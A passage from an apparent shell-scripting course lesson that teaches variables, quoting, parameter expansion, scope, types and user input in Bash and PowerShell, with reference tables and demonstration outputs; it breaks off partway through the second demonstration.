


# Day 21: Variables and User Input

!!! info "Lesson overview"
    | | |
    |---|---|
    | **Module** | 5 — Scripting & Automation |
    | **Difficulty** | :material-signal-cellular-2: Intermediate |
    | **Estimated time** | 3–4 hours (75 min reading, 75 min demonstrations, 60–90 min lab and quiz) |
    | **Platforms** | Ubuntu 24.04 LTS (Bash 5.2) · Windows 11 (Windows PowerShell 5.1 and PowerShell 7.4+) |
    | **Lab** | [Lab 21: Change Ticket Intake](../../labs/lab-21.md) |

## Learning Objectives

By the end of this lesson you will be able to:

1. Create, read, change and remove variables in **Bash** and **PowerShell**, and explain why `name = value` fails in Bash but `$name = value` is correct in PowerShell.
2. Choose the right **quoting** (single, double, none) and explain word splitting and glob expansion of unquoted variables.
3. Use Bash **parameter expansion** for defaults (`${var:-x}`), required values (`${var:?msg}`), length and trimming (`${#var}`, `${var##*/}`, `${var%.*}`), substitution and case conversion.
4. Capture command output (`$(...)`), do integer arithmetic (`$(( ))`) and know when you need `awk` or PowerShell `[double]` instead.
5. Explain **scope**: shell vs environment variables, `export`, subshells and pipelines in Bash; `Local`, `Script`, `Global`, `Private` and `$using:` in PowerShell; `$env:` and persistent environment variables.
6. Work with **types**: Bash `declare -i/-r/-a/-A/-l/-u`; PowerShell type constraints, casting, `-as`, `[int]::TryParse()` and `Set-StrictMode`.
7. Accept **input** three ways — arguments (`$1`, `"$@"`, `$args`, `param()`), interactive prompts (`read`, `Read-Host`) and the environment — and **validate** it before use.
8. Handle **secrets** safely: `read -s`, `Read-Host -AsSecureString`, `Get-Credential`, and why passwords never belong on the command line or in exported variables.

## Prerequisites

- Module 1 completed, especially [Day 03](../module-1/day-03.md) (redirection) and [Day 05](../module-1/day-05.md) (pipelines and exit codes).
- You can create and run a script file: Bash `chmod +x script.sh` then `./script.sh`; PowerShell `.\Script.ps1` (execution policy, [Day 19](../module-4/day-19.md)).
- A text editor that saves **LF** line endings for Bash scripts (VS Code: bottom-right status bar shows `LF`/`CRLF`).
- Work inside a practice folder such as `~/lab21` or `$HOME\lab21`. Nothing in this lesson needs root or Administrator.

## Introduction and Concepts

### What a variable is

A **variable** is a named place in the shell's memory that holds a value so you can reuse it: a host name, a threshold, a file path, a list of servers. Scripts are mostly about **getting values in** (arguments, prompts, files, commands), **holding them** in variables, **checking them**, and **using them** in commands.

The two shells take very different approaches:

| | Bash | PowerShell |
|---|---|---|
| What a variable holds | A **string** (plus optional integer/array attributes) | Any **.NET object**: string, int, DateTime, array, hashtable, process object… |
| Assign | `name=value` (no spaces, no `$`) | `$name = value` (spaces allowed, `$` required) |
| Read | `$name` or `${name}` | `$name` |
| Undefined variable | Expands to empty string (unless `set -u`) | `$null` (error under `Set-StrictMode`) |
| Names | Case-**sensitive** (`$Host` ≠ `$host`) | Case-**insensitive** (`$Host` = `$host`) |
| Typing | Untyped text; `declare -i` for integer arithmetic | Dynamic, but can be **type-constrained**: `[int]$port = 443` |

### How the shell turns your line into a command

Understanding *when* a variable is replaced explains most beginner bugs. Bash processes a command line in stages; PowerShell parses into tokens and passes **objects** as whole arguments.



In Bash, the value of an **unquoted** variable is split on spaces, tabs and newlines and then treated as a wildcard pattern. That is why the single most important Bash rule is: **quote your variables** — `"$src"`. PowerShell does not re-split variable values, so `Copy-Item $src $dst` is safe even with spaces.

### Shell variables vs environment variables

Every process has an **environment**: a list of `NAME=value` strings copied to each child process when it starts. `PATH`, `HOME`, `USER`, `LANG` and `TZ` are environment variables.

- In Bash, a new variable is a **shell variable** visible only to the current shell. `export NAME` marks it for the environment so child processes (scripts, programs) receive a **copy**. A child can never change its parent's variables.
- In PowerShell, ordinary `$variables` live in PowerShell's own session state. Environment variables are reached through the **`Env:` drive**: `$env:PATH`. Setting `$env:NAME` affects the current process and the child processes it starts afterwards.



### Three ways to get input into a script

| Method | Bash | PowerShell | Best for |
|---|---|---|---|
| **Arguments** | `$1`, `$2`, `"$@"`, `$#`, `getopts` (Day 23) | `param()` block, `$args` | Automation, scheduled tasks, CI — no human present |
| **Interactive prompt** | `read -r -p "Host: " host` | `Read-Host -Prompt 'Host'` | Helper scripts run by a person |
| **Environment / config** | `"${API_URL:?}"`, `source config.env` | `$env:API_URL`, `Import-PowerShellDataFile` | Secrets from a vault, per-environment settings |

Professional scripts prefer **arguments with sensible defaults**, fall back to a prompt only when run interactively, and **validate** every value before it reaches a command that changes anything.

## Linux Command Reference

| Command / syntax | Purpose | Availability | Needs root? |
|---|---|---|---|
| `name=value` | Assign a shell variable (no spaces around `=`) | Bash syntax | No |
| `$name`, `${name}` | Expand (read) a variable | Bash syntax | No |
| `${name:-default}` / `${name:=default}` / `${name:?msg}` / `${name:+alt}` | Default, assign-default, required, alternate value | Bash (POSIX) | No |
| `${#name}`, `${name#p}`, `${name##p}`, `${name%p}`, `${name%%p}` | Length; strip shortest/longest prefix or suffix | Bash (POSIX) | No |
| `${name/old/new}`, `${name//old/new}`, `${name^^}`, `${name,,}` | Replace first/all; upper/lower case | Bash 4+ | No |
| `$(command)` | Command substitution | Bash (POSIX) | No |
| `$(( expr ))`, `let`, `(( ))` | Integer arithmetic | Bash | No |
| `export`, `export -n`, `unset` | Mark for environment; un-export; delete | Bash built-ins | No |
| `env`, `printenv` | Show environment / run a command with a modified one | coreutils | No |
| `declare` (`-i -r -a -A -l -u -x -p`), `readonly`, `local` | Attributes, constants, arrays, function scope | Bash built-ins | No |
| `read` (`-r -p -s -t -n -a -d`) | Read a line of input into variables | Bash built-in | No |
| `printf`, `printf -v var` | Formatted output / formatted assignment | Bash built-in (also coreutils) | No |
| `echo` | Print arguments (simple, but options vary between shells) | Bash built-in | No |
| `$0 $1… $# $@ $* shift set --` | Positional parameters | Bash | No |
| `$? $$ $! $RANDOM $SECONDS $EPOCHSECONDS $LINENO` | Special variables | Bash (`EPOCHSECONDS` 5.0+) | No |
| `source file`, `. file` | Run a file in the **current** shell (load variables) | Bash built-in | No |
| `set -o nounset` (`set -u`) | Error on use of an unset variable | Bash | No |

## PowerShell Command Reference

| Cmdlet / syntax | Aliases | Purpose | 5.1 | 7.x | Admin? |
|---|---|---|---|---|---|
| `$name = value` | — | Assign (any object) | Yes | Yes | No |
| `[int]$n = 5`, `[string[]]$list` | — | Type-constrained variable | Yes | Yes | No |
| `Get-Variable` | `gv` | List/inspect variables (with scope, options) | Yes | Yes | No |
| `Set-Variable` / `New-Variable` | `set`, `sv` / `nv` | Create or change, incl. `-Option ReadOnly/Constant`, `-Scope` | Yes | Yes | No |
| `Remove-Variable` / `Clear-Variable` | `rv` / `clv` | Delete / set to `$null` | Yes | Yes | No |
| `$env:NAME`, `Get-ChildItem Env:` | — | Read/set process environment variables | Yes | Yes (names case-sensitive on Linux) | No |
| `[Environment]::SetEnvironmentVariable(n, v, 'User'/'Machine')` | — | Persistent environment variables | Yes | Yes (**Windows only**; on Linux/macOS only `Process` works) | `Machine` needs admin |
| `Read-Host` | — | Prompt for input (`-Prompt`, `-AsSecureString`) | Yes | Yes; `-MaskInput` **7.1+** | No |
| `Get-Credential` | — | Prompt for user name + password → `PSCredential` | Yes (GUI dialog) | Yes (console prompt) | No |
| `Write-Output` | `echo`, `write` | Send objects to the success stream (pipeline) | Yes | Yes | No |
| `Write-Host` | — | Write to the host (information stream 6 since 5.0) | Yes | Yes | No |
| `Write-Information` / `Write-Verbose` / `Write-Warning` | — | Streams 6 / 4 / 3 | Yes | Yes | No |
| `-f` operator | — | Composite formatting: `'{0,-10} {1:N1}' -f $a, $b` | Yes | Yes | No |
| `param()`, `[Parameter(Mandatory)]`, `[ValidateSet()]`, `[ValidateRange()]`, `[ValidatePattern()]` | — | Script arguments with validation | Yes | Yes | No |
| `$args`, `$PSBoundParameters`, `$PSScriptRoot` | — | Automatic variables for arguments and location | Yes | Yes | No |
| `Set-StrictMode -Version Latest` | — | Error on uninitialised variables and missing properties | Yes | Yes | No |

## Detailed Command Explanations

### Assigning and reading variables in Bash

```bash
name="web-01"        # correct: no spaces around =
count=3
name = "web-01"      # WRONG: Bash runs a command called "name" with arguments "=" and "web-01"
```

Read a variable with `$name`. Use braces when the next character could be part of the name: `"${name}_backup"` gives `web-01_backup`, while `"$name_backup"` reads a different (empty) variable called `name_backup`.

Variable names may contain letters, digits and underscores and must not start with a digit. By convention, **UPPERCASE** names are environment variables and constants (`PATH`, `MAX_RETRIES`); use **lowercase** for your own script variables so you never overwrite `PATH`, `HOME` or `USER` by accident.

`unset name` deletes a variable. `name=` sets it to the empty string — which is *different* from unset, as the `${name-x}` vs `${name:-x}` expansions below show.

### Quoting: single, double and none

| Form | What happens | Use for |
|---|---|---|
| `'single'` | Completely literal; no expansion at all | Fixed text, regular expressions, `awk` programs |
| `"double"` | Expands `$var`, `$(cmd)`, `$(( ))` and `\` escapes for `$ " \` and backtick; **no** word splitting or globbing | Almost every variable use |
| unquoted | Expansion **plus** word splitting and glob expansion | Rarely; only when you deliberately want splitting |

`"$@"` is the special case you must memorise: it expands to every argument as a **separate, correctly quoted word**, so arguments containing spaces survive.

### Parameter expansion — Bash's built-in string toolkit

Parameter expansion manipulates a value **without starting a new process** (no `sed`, `cut` or `basename` needed):

| Expansion | Result | Example (`path=/var/log/nginx/access.log.2.gz`) |
|---|---|---|
| `${#path}` | Length | `30` |
| `${path##*/}` | Strip longest prefix matching `*/` (basename) | `access.log.2.gz` |
| `${path%/*}` | Strip shortest suffix matching `/*` (dirname) | `/var/log/nginx` |
| `${path%.gz}` | Strip a suffix | `/var/log/nginx/access.log.2` |
| `${path/access/error}` | Replace first match (`//` = all) | `/var/log/nginx/error.log.2.gz` |
| `${v^^}` / `${v,,}` | Upper / lower case (Bash 4+) | `PRODUCTION` / `production` |
| `${v:-def}` | Use `def` if `v` is unset **or empty**; `v` unchanged | |
| `${v:=def}` | Same, and **assign** `def` to `v` | |
| `${v:?message}` | If unset or empty, print message and **abort** a non-interactive shell | Required configuration |
| `${v:+alt}` | `alt` if `v` is set and non-empty, otherwise nothing | Optional flags: `${verbose:+-v}` |
| `${v:offset:length}` | Substring | `${ts:0:10}` → date part of an ISO timestamp |

Remember the trimming operators with the keyboard: `#` is to the **left** of `$` (prefix), `%` is to the **right** (suffix). One symbol = shortest match, two = longest.

Without the colon (`${v-def}`, `${v?msg}`) the test is "unset" only; an empty value counts as set.

### Command substitution and arithmetic

`$(command)` runs the command and inserts its standard output, with **trailing newlines removed**. Prefer it to the old backtick form, which cannot nest cleanly. Quote it: `today="$(date -u +%F)"`.

`$(( expression ))` performs **64-bit signed integer** arithmetic: `+ - * / % **`, comparisons and bit operators. Inside `$(( ))` you may omit `$` before variable names. Division truncates (`$(( 7 / 2 ))` is `3`). For decimals use `awk` (or `bc`, if installed): `awk -v u=850 -v t=1024 'BEGIN { printf "%.1f\n", u*100/t }'`.

!!! warning "Leading zeros mean octal"
    `n=08; echo $(( n + 1 ))` fails with *value too great for base* because a leading `0` means base 8. Dates and times (`08`, `09`) trigger this constantly. Force base 10 with `$(( 10#$n + 1 ))`.

### `export`, `env` and `printenv`

`export NAME` (or `export NAME=value`) marks a variable for the environment of child processes. `export -n NAME` removes the mark; `declare -p NAME` shows `declare -x` for exported variables. `printenv NAME` prints one environment variable; `env` alone lists them all.

To give **one** command a temporary environment value, prefix the assignment: `TZ=UTC date` or `LC_ALL=C sort file`. The variable is set only for that command; your shell is unchanged.

Where environment variables come from on Ubuntu:

| File | Read by | Use for |
|---|---|---|
| `/etc/environment` | `pam_env` at login (plain `NAME=value` lines, **not** a script) | System-wide simple values |
| `/etc/profile`, `/etc/profile.d/*.sh` | Login shells | System-wide shell setup |
| `~/.profile` | Your login shells (Ubuntu's version also sources `~/.bashrc` for Bash) | Personal `PATH` additions |
| `~/.bashrc` | Interactive non-login Bash (every new terminal tab) | Aliases, prompt, interactive settings |
| `/etc/systemd/system/x.service` `Environment=` | systemd services | Service configuration; services do **not** read `.bashrc` |

### Scope: subshells, pipelines and `source`

Bash creates a **subshell** — a copy of the current shell — for `( ... )`, `$( ... )`, background jobs and **each part of a pipeline**. Changes inside a subshell disappear when it ends. The classic trap is:

```bash
echo "x y z" | read -r first rest    # read runs in a subshell
echo "$first"                         # empty!
read -r first rest <<< "x y z"        # here-string: read runs in this shell
```

A script run as `./script.sh` or `bash script.sh` is a **child process**: it cannot change the caller's variables or current directory. To load variables from a file into the current shell, **source** it: `source ./config.env` (or `. ./config.env`). Only source files you trust, because sourcing executes them.

Inside functions, `local name=value` limits a variable to the function (Day 23).

### `declare`, `readonly` and arrays

`declare` sets attributes:

| Option | Effect |
|---|---|
| `-i` | Integer: assignments are evaluated arithmetically (`n+=10` adds; a non-numeric word evaluates to 0) |
| `-r` | Read-only (same as `readonly`); cannot be changed or unset |
| `-a` / `-A` | Indexed array / associative array (Bash 4+) |
| `-l` / `-u` | Convert to lower / upper case on assignment |
| `-x` | Export (same as `export`) |
| `-p` | Print the variable with its attributes — a quick debugging tool |

Indexed arrays hold lists safely, even when items contain spaces:

```bash
servers=(web-01 web-02 "db 01")
servers+=(cache-01)                  # append
echo "${#servers[@]}"                # count: 4
echo "${servers[1]}" "${servers[-1]}" # web-02 cache-01 (negative index: Bash 4.3+)
for s in "${servers[@]}"; do ...; done
```

Associative arrays map keys to values (`declare -A owner=([web-01]=alice)`), and `"${!owner[@]}"` lists the keys. Day 22 uses them for counting.

### Positional parameters

| Variable | Meaning |
|---|---|
| `$0` | How the script was called (`./check-args.sh`) |
| `$1` … `$9`, `${10}` | Arguments (braces needed from 10) |
| `$#` | Number of arguments |
| `"$@"` | All arguments, each as a separate word — use this one |
| `"$*"` | All arguments joined into **one** word with the first character of `IFS` |
| `shift [n]` | Drop the first *n* arguments; `$2` becomes `$1` |
| `set -- a b c` | Replace the positional parameters |

Combine with expansions for defaults and required values: `host="${1:?usage: $0 HOST [PORT]}"`, `port="${2:-443}"`. Option parsing with `getopts` arrives on Day 23.

### `read` — interactive and line input

`read` reads **one line** from standard input and splits it into the variables named, using the characters in `IFS` (space, tab, newline by default). The last variable receives the rest of the line.

| Option | Meaning |
|---|---|
| `-r` | Raw: do not treat backslash as an escape. **Always use it** — without it, `C:\Temp` becomes `C:Temp` |
| `-p "prompt"` | Show a prompt (on stderr, and only when input is a terminal) |
| `-s` | Silent: do not echo the typed characters (passwords) |
| `-t seconds` | Time out; exit status greater than 128 if it expires |
| `-n N` | Return after N characters (single-key `y/n` answers) |
| `-a array` | Split the line into an indexed array |
| `-d delim` | Read until `delim` instead of newline (`-d ''` for NUL-separated input, Day 22) |
| `-e` / `-i text` | Use Readline editing / pre-fill with `text` (interactive only) |

`IFS= read -r line` reads a line **exactly** (no trimming, no backslash processing). `IFS=: read -r user _ uid gid _ home shell` splits a colon-separated record such as an `/etc/passwd` line; `_` is a conventional throwaway variable.

`read` returns a non-zero exit status at end of input, which is what ends `while read` loops (Day 22).

### `echo` vs `printf`

`echo` is fine for simple text, but its handling of `-n`, `-e` and backslashes differs between shells and systems. `printf` is predictable and formats like C: `printf '%-10s|%5d|%6.2f%%\n' disk 42 85.123`. `printf -v var FORMAT ...` stores the result in a variable instead of printing it, and `printf '%(%Y-%m-%dT%H:%M:%S)T' -1` formats the current time without starting `date` (Bash 4.2+).

### PowerShell variables and types

```powershell
$name  = 'web-01'          # string
$count = 3                 # Int32
$when  = Get-Date          # DateTime object
$procs = Get-Process       # array of Process objects
$name.Length               # 6 — strings are objects with properties
$when.AddDays(-7)          # methods work on the stored object
```

PowerShell variables hold **objects**, so you keep all their properties and methods. The type is decided by the value unless you **constrain** it:

```powershell
[int]$port = 443
$port = '8443'     # converted to Int32 8443
$port = 'https'    # ERROR: Cannot convert value "https" to type "System.Int32"
```

A type constraint is a cheap form of validation. Useful accelerators: `[string]`, `[int]`, `[long]`, `[double]`, `[decimal]`, `[bool]`, `[datetime]`, `[timespan]`, `[array]`, `[hashtable]`, `[ipaddress]`, `[version]`, `[pscustomobject]`, `[securestring]`.

**Conversion rules to know:**

- The **left operand decides**: `'5' + 5` is `'55'` (string concatenation) but `5 + '5'` is `10`.
- Casting a decimal to `[int]` **rounds** (ties to even): `[int]2.5` is `2`, `[int]3.5` is `4`. Use `[math]::Floor()` to truncate.
- `-as` converts or returns `$null` instead of throwing: `'abc' -as [int]` is `$null`.
- `[int]::TryParse($text, [ref]$n)` returns `$true`/`$false` — ideal for validating user input.
- `[ipaddress]'10.0.0.300'` throws, so `[ipaddress]` works as an IP validator (but note that it also accepts short forms such as `'10'`).

### `Get-Variable`, `Set-Variable`, `New-Variable`, `Remove-Variable`

The `Variable:` drive holds every variable. `Get-Variable -Name count` shows its value, and `Get-Variable count | Select-Object *` shows options, scope and attributes. `New-Variable -Name MaxRetries -Value 3 -Option ReadOnly` creates a read-only variable (removable only with `Remove-Variable -Force`); `-Option Constant` can never be changed or removed for the life of the session. `Remove-Variable name` deletes it; `Clear-Variable name` sets it to `$null`.

### PowerShell scopes

| Scope / modifier | Meaning |
|---|---|
| `$local:x` (default) | The current scope (function, script block, script) |
| `$script:x` | The script file's scope — shared by all functions in the script |
| `$global:x` | The session — survives after the script ends. Avoid in scripts |
| `$private:x` | Visible only in this scope, not in child scopes |
| `$using:x` | Read a local variable inside `Invoke-Command -ComputerName`, `Start-Job` or `ForEach-Object -Parallel` (7.0+) |
| `$env:X` | Process environment variable |

Child scopes can **read** parent variables, but an assignment in a child creates a new local copy. A script run as `.\Script.ps1` gets its own script scope, so its variables disappear afterwards. **Dot-sourcing** (`. .\Script.ps1`) runs it in the caller's scope, exactly like Bash `source`.

### Environment variables in PowerShell

```powershell
$env:PATH                                    # read
$env:LOG_LEVEL = 'debug'                     # set for this process and its future children
Remove-Item Env:LOG_LEVEL                    # delete
Get-ChildItem Env: | Sort-Object Name        # list
[Environment]::SetEnvironmentVariable('LAB21_MODE', 'test', 'User')     # persistent, Windows only
[Environment]::GetEnvironmentVariable('LAB21_MODE', 'User')
```

On **Windows**, environment-variable names are case-insensitive and `$env:path` works. On **Linux and macOS** (PowerShell 7) they are case-sensitive: `$env:PATH` works, `$env:path` is empty. Persistent `User`/`Machine` targets exist only on Windows (`Machine` needs an elevated session); on other platforms .NET ignores them. Processes started earlier — including the current Explorer-launched terminal — do not see a persistent change until they are restarted.

### Strings: quotes, subexpressions, here-strings and `-f`

| Form | Expands? | Example |
|---|---|---|
| `'single'` | No | `'Total: $count'` → `Total: $count` |
| `"double"` | Yes: `$var`, `$(expression)`, backtick escapes `` `n `` `` `t `` `` `$ `` | `"Host $name has $($procs.Count) processes"` |
| `@' ... '@` | No — literal here-string (multi-line) | Embedded scripts, JSON templates |
| `@" ... "@` | Yes — expanding here-string | Report bodies, e-mail text |

Inside double quotes, `$obj.Property` does **not** work as you expect: `"$when.Year"` expands `$when` and then appends the literal text `.Year`. Wrap expressions in a **subexpression**: `"$($when.Year)"`.

The **format operator** `-f` is PowerShell's `printf`: `'{0,-10}|{1,5}|{2,6:N2}%' -f 'disk', 42, 85.123`. `{0}` is the first argument, `,-10` left-aligns in 10 characters, `:N2` means number with 2 decimals (culture-specific separators). Other formats: `{0:yyyy-MM-dd}` for dates, `{0:P1}` percent, `{0:X}` hexadecimal.

The backtick (`` ` ``) is PowerShell's escape character — not the backslash, which is an ordinary character in Windows paths.

### `Read-Host` and `Get-Credential`

`Read-Host -Prompt 'Hostname'` displays the prompt `Hostname:` followed by a space and returns a **string** (always a string — convert it). `-AsSecureString` returns a `System.Security.SecureString` and shows `*` for each character. `-MaskInput` (PowerShell **7.1+**) masks the input but returns a plain string.

`Get-Credential` asks for a user name and password and returns a `PSCredential` whose `.Password` is a `SecureString`. Pass the whole object to cmdlets with a `-Credential` parameter instead of handling the password yourself. Windows PowerShell 5.1 shows a GUI dialog; PowerShell 7 prompts in the console.

!!! warning "SecureString is protection in memory, not encryption you can rely on everywhere"
    On Windows, `SecureString` content is encrypted in memory with DPAPI. On Linux and macOS it is **not encrypted**. Microsoft's guidance is to avoid `SecureString` for new development and to keep secrets in a secret store (for example the *Microsoft.PowerShell.SecretManagement* module or a cloud key vault) rather than in scripts.

When PowerShell is started with `-NonInteractive` (as scheduled tasks and CI often are), `Read-Host` and mandatory-parameter prompts **fail** instead of waiting forever. Bash `read` reading from a closed or empty input simply returns a non-zero status. Design every script to work without a human when the inputs are supplied as arguments.

### `Write-Output`, `Write-Host` and `Write-Information`

`Write-Output` (and simply leaving a value on its own line) sends **objects** down the pipeline: they can be captured with `$x = ...`, piped, or redirected. `Write-Host` writes text to the **host** (the console). Since PowerShell 5.0 it goes through the *information stream* (6), so it can be captured with `6>` or `-InformationVariable`, but it does **not** enter the success pipeline. Rules of thumb:

- Data your script returns → `Write-Output` (or just the value).
- Progress and status messages for the operator → `Write-Information` (shown when `$InformationPreference = 'Continue'` or `-InformationAction Continue`) or `Write-Verbose`.
- Coloured interactive menus → `Write-Host` is acceptable; never use it for data.

### Script arguments: `$args` and `param()`

`$args` is an array of the unnamed arguments passed to a script or function. It works, but a `param()` block is far better: named, typed, validated, and documented by `Get-Help`.

```powershell
[CmdletBinding()]
param(
    [Parameter(Mandatory)]
    [ValidatePattern('^[A-Za-z0-9-]{1,63}$')]
    [string]$ComputerName,

    [ValidateRange(1, 65535)]
    [int]$Port = 443,

    [ValidateSet('Test', 'Staging', 'Production')]
    [string]$Environment = 'Test'
)
```

- `Mandatory` prompts for a missing value interactively and fails in a non-interactive session.
- Validation attributes reject bad input **before** your code runs, with a clear error naming the parameter.
- `[ValidateSet()]` also gives tab completion of the allowed values.
- `$PSBoundParameters` is a hashtable of the parameters the caller actually supplied; `$PSScriptRoot` is the folder containing the script (use it to find files next to the script).

Advanced functions and the full `param()` syntax are covered on Day 23.

### `Set-StrictMode`

`Set-StrictMode -Version Latest` turns common silent mistakes into errors: referencing an uninitialised variable, referencing a non-existent property, calling a function like a method `f(1,2)`. It is PowerShell's equivalent of Bash `set -o nounset`. Put it at the top of every script (all scripts in this course's Script Library do).

## Syntax and Parameters

### Bash

```text
NAME=VALUE  [NAME2=VALUE2 ...]  [command ...]
${NAME}  ${NAME:-WORD}  ${NAME:=WORD}  ${NAME:?WORD}  ${NAME:+WORD}
${#NAME}  ${NAME#PAT}  ${NAME##PAT}  ${NAME%PAT}  ${NAME%%PAT}  ${NAME/PAT/STR}  ${NAME//PAT/STR}
${NAME^^}  ${NAME,,}  ${NAME:OFFSET:LENGTH}
$(COMMAND)    $(( EXPRESSION ))
export [-n] [NAME[=VALUE] ...]      unset [-v] NAME ...
declare [-a|-A] [-i] [-r] [-l|-u] [-x] [-p] [NAME[=VALUE] ...]
readonly NAME[=VALUE] ...
read [-r] [-s] [-p PROMPT] [-t TIMEOUT] [-n NCHARS] [-a ARRAY] [-d DELIM] [NAME ...]
printf [-v VAR] FORMAT [ARGUMENTS ...]
env [-i] [-u NAME] [NAME=VALUE ...] [COMMAND [ARG ...]]
```

| Item | Meaning |
|---|---|
| `-r` (read) | Raw mode: backslashes are literal |
| `-s` (read) | Do not echo input |
| `-t N` (read) | Time out after N seconds (fractions allowed); status > 128 on timeout |
| `-a ARR` (read) | Store the words in array `ARR` |
| `-n` (export) | Remove the export attribute |
| `-i` (env) | Start the command with an **empty** environment |
| `%s %d %f %x %%` (printf) | String, integer, floating point, hex, literal `%`; width/precision `%-10s`, `%6.2f` |

### PowerShell

```text
[<type>]$<name> = <value>
Get-Variable [[-Name] <String[]>] [-Scope <String>] [-ValueOnly]
New-Variable [-Name] <String> [[-Value] <Object>] [-Option <None|ReadOnly|Constant|Private|AllScope>] [-Scope <String>]
Set-Variable [-Name] <String[]> [[-Value] <Object>] [-Option ...] [-Scope <String>]
Remove-Variable [-Name] <String[]> [-Scope <String>] [-Force]
Read-Host [[-Prompt] <Object>] [-AsSecureString]                 # 5.1 and 7
Read-Host [[-Prompt] <Object>] [-MaskInput]                      # 7.1+
Get-Credential [[-Credential] <PSCredential>] [-Message <String>] [-UserName <String>]
Write-Output [-InputObject] <PSObject[]> [-NoEnumerate]
Write-Information [-MessageData] <Object> [[-Tags] <String[]>]
'<format>' -f <arg0>, <arg1>, ...
Set-StrictMode -Version <Version> | -Off
```

| Item | Meaning |
|---|---|
| `-Option ReadOnly` | Cannot be changed; `Remove-Variable -Force` can delete it |
| `-Option Constant` | Cannot be changed or removed; only at creation (`New-Variable`) |
| `-Scope` | `Global`, `Script`, `Local`, `Private` or a number (0 = current, 1 = parent) |
| `-ValueOnly` | Return the value instead of the `PSVariable` object |
| `-AsSecureString` | Return a `SecureString`, show `*` while typing |
| `-MaskInput` | Show `*` but return a plain string (7.1+) |
| `{index[,alignment][:format]}` | `-f` placeholder; negative alignment = left-aligned |

## Practical Demonstrations

The **Bash** outputs below were captured by running the commands with Bash 5.2.21 on Ubuntu 24.04.5 in a container (dates, process IDs and counts will differ on your machine). The **PowerShell** outputs are **examples** written from the documented behaviour of Windows PowerShell 5.1 and PowerShell 7.4; PowerShell was not available on the release host, so they were not captured.

### Demo 1 — Assignment, quoting and braces

=== "Bash"

    ```bash
    name="web-01"
    count=3
    greeting='Hello, $name'
    echo "$greeting"
    echo "Host: $name, checks: $count"
    echo "Host: ${name}_backup"
    echo "Host: $name_backup."
    name = "x"
    ```

    **Expected output (captured):**

    ```text
    Hello, $name
    Host: web-01, checks: 3
    Host: web-01_backup
    Host: .
    bash: name: command not found
    ```

    `$name_backup` is a different, unset variable, so it expanded to nothing. The last line shows why spaces around `=` are fatal: Bash tried to run a command called `name`.

=== "PowerShell"

    ```powershell
    $name  = 'web-01'
    $count = 3
    $greeting = 'Hello, $name'
    $greeting
    "Host: $name, checks: $count"
    "Host: ${name}_backup"
    "Host: $($name.ToUpper()) has $($name.Length) characters"
    $count.GetType().Name
    ('5' + 5), (5 + '5')
    ```

    **Expected output (example):**

    ```text
    Hello, $name
    Host: web-01, checks: 3
    Host: web-01_backup
    Host: WEB-01 has 6 characters
    Int32
    55
    10
    ```

    PowerShell also accepts `${name}` to delimit a name; `$(...)` evaluates any expression inside a string.

### Demo 2 — Defaults, required values and string surgery

=== "Bash"

    ```bash
    path="/var/log/nginx/access.log.2.gz"
    echo "${#path}"
    echo "${path##*/}"
    echo "${path%/*}"
    echo "${path%.gz}"
    echo "${path/access/error}"
    env_name="Production"
    echo "${env_name^^} ${env_name,,}"
    unset region
    echo "region=${region:-ap-south-1}"
    echo "after :- region='${region-}'"
    echo "region=${region:=eu-west-1}"
    echo "after := region='$region'"
    ( : "${API_URL:?API_URL must be set}" ); echo "exit=$?"
    ```

    **Expected output (captured):**

    ```text
    30
    access.log.2.gz
    /var/log/nginx
    /var/log/nginx/access.log.2
    /var/log/nginx/error.log.2.gz
    PRODUCTION production
    region=ap-south-1
    after :- region=''
    region=eu-west-1
    after := region='eu-west-1'
    bash: API_URL: API_URL must be set
    exit=1
    ```

    `:` is the "do nothing" built-in; `: "${API_URL:?...}"` is the idiom for "fail now if this is missing". It is wrapped in `( )` here only so that the demo shell survives.

=== "PowerShell"

    ```powershell
    $path = '/var/log/nginx/access.log.2.gz'
    $path.Length
    Split-Path -Path $path -Leaf
    Split-Path -Path $path -Parent
    $path -replace '\.gz$', ''
    $path.Replace('access', 'error')
    $envName = 'Production'
    $envName.ToUpper(), $envName.ToLower()
    $region = $null
    if (-not $region) { $region = 'ap-south-1' }; "region=$region"
